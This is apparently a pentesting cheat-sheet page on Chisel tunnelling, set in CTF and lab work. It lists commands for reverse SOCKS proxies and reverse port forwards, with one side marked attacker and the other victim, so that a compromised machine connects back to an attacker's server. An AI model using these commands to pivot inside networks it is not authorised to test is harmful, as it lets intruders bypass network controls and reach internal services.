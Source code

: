 # Chisel

## Socks

```
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```

## Port Forwarding

```
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```

## Links

{% embed url="https://dev.to/jmau111/getting-started-with-chisel-in-ctfs-o76/" %}

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

{% embed url="https://goteleport.com/blog/ssh-tunneling-explained/" %}

